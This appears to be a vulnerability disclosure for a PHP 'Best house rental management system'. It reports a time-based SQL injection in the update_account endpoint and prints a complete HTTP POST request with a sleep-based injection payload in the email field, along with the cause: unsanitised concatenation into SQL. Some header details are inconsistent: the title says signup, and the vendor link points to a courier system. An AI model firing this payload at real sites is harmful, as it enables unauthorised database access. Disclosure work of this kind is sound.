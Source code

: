 # Best house rental management system update_account time-based SQL Injection Vulnerability

* **Exploit Title**: Best house rental management system project in php signup time-based SQL Injection Vulnerability
* **Exploit Author**: webraybtl@webray.com.cn inc
* **Vendor Homepage**: https://www.sourcecodester.com/php/17375/best-courier-management-system-project-php.html
* **Software Link**: https://www.sourcecodester.com/download-code?nid=17375&title=Best+house+rental+management+system+project+in+php+
* **Version**: Best house rental management system project in php v1.0
* **Tested on:**  PHP 7.4.33, OpenResty1.21.4.3-3-3-focal
* **CVE:**  Reported, waiting for CVE number.

## Description

Best house rental management system project in php admin_class.php `update_account`​ function has a time-based SQL injection Vulnerability.

#### Payload used:

```plaintext
POST /ajax.php?action=update_account HTTP/1.1
Host: 192.168.56.128:8080
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept: */*
Referer: http://192.168.56.128:8080/login.php
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Origin: http://192.168.56.128:8080
Cookie: PHPSESSID=l9bepm47dqojg3l0o826l4kcd0
Priority: u=0
Accept-Encoding: gzip, deflate
Content-Length: 64

firstname=123&lastname=123&email=0' and sleep(1) -- &password=123
```

## Proof of Concept

* Construct the post request package and send it to the update_account function. Successfully saw that the response time was delayed by the specified number of seconds.

​![update-accunt](assets/update-accunt-20240920112308-4y90x5w.gif)​

* Upon reviewing the source code, it was discovered that the `email`​ parameter was directly concatenated into the SQL statement.

​![image](assets/image-20240920112359-gciu2rk.png)​

